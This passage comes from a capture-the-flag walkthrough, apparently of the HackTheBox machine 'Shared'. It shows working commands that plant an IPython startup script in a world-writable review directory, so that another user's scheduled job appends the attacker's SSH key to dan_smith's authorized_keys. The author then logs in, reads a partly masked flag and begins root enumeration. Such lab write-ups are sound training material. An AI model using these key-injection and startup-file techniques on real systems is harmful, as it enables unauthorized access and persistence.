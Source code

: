    
    
    import os
    
    os.makedirs("/home/dan_smith/.ssh", exist_ok=True)
    f=open("/home/dan_smith/.ssh/authorized_keys", "a")
    f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing")
    f.close()
    

It seems that the folders / files in `/opt/scripts_review` get cleared out
fairly regularly, so I’ll craft one line that generates the folders, makes
sure they are writable by other users, and then writes the script:

    
    
    james_mason@shared:/opt/scripts_review$ mkdir -p profile_default/startup; \
    > chmod -R 777 profile_default; \
    > echo 'import os; os.makedirs("/home/dan_smith/.ssh", exist_ok=True); f=open("/home/dan_smith/.ssh/authorized_keys", "a"); f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing"); f.close()' > profile_default/startup/0xdf.py
    

Once the script runs again, I can SSH into the box as dan_smith:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen dan_smith@shared.htb
    Linux shared 5.10.0-12-amd64 #1 SMP Debian 5.10.103-1 (2022-03-07) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Jul 12 11:22:01 2022 from 10.10.14.6
    dan_smith@shared:~$ 
    

And grab `user.txt`:

    
    
    dan_smith@shared:~$ cat user.txt
    ffacd863************************
    

## Shell as root

### Enumeration

#### File System

Outside of `user.txt`, there’s nothing interesting in dan_smith’s home
directory. dan_smith does has an additional group, `sysadmin`:

    
    
    dan_smith@shared:~$ id
    uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
    